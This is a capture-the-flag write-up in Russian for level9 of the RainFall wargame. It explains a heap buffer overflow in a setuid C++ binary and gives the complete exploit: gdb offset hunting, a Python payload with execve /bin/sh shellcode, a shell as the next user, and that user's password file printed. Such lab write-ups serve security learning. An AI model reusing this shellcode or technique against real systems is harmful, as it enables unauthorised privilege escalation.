 # Level9

Мы можем найти исполняемый файл, который еще ничего не делает
```
level9@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 bla
level9@RainFall:~$ ./level9 bla bla
```
Проанализировав это с помощью gdb, мы можем найти 5 интересных функций:
- N::N(int)
- N::setAnnotation(char*)
- N::operator+(N&)
- N::operator-(N&)
- main
  

  Этот двоичный файл написан на плюсах, и здесь нет вызовов `/ bin / sh`, мы можем предположить, что на этот раз нам придется использовать shell.  
  Мы должны использовать `memcpy ()` в argv [1] в `setAnnotation ()`, чтобы вызвать `edx` шеллкод. По сути, это переполнение буфера.  
  Прежде всего, найти смещение:
```
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441       1094083649
(gdb)
```

Благодаря генератору паттернов мы обнаружили, что смещение eax начинается с 108.  
Теперь у нас есть смещение, и мы можем построить нашу полезную нагрузку.
Для этого мы должны найти начальный адрес нашего буфера и заменить на него значение `esp + 0x10`, чтобы вызов` edx` вызывал наш шеллкод. Но поскольку нам нужно дважды разыменовать, как мы хотим получить доступ к классу N, наш адрес возврата должен указывать на адрес, который указывает на начальный буфер:
  
```
(gdb) b *main+136                                    // right after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141                           // buffer address
```
Значение [esp + 0x10] будет заменено на 0x804a00c.  
Поскольку нам нужно снова разыменовать, этот адрес будет указывать на начало нашего шелл-кода: 0x804a00x + 4 = 0x804a010.
```
payload : shell_addr + shellcode + padding + buffer_addr
          [4 bytes]   [28 bytes]  [76 bytes]  [4 bytes] = 108 + 4
```
Наш последний эксплойт будет выглядеть так:
- python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$ exit
level9@RainFall:~$ su bonus0
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
bonus0@RainFall:~$
```
╮(￣_￣)╭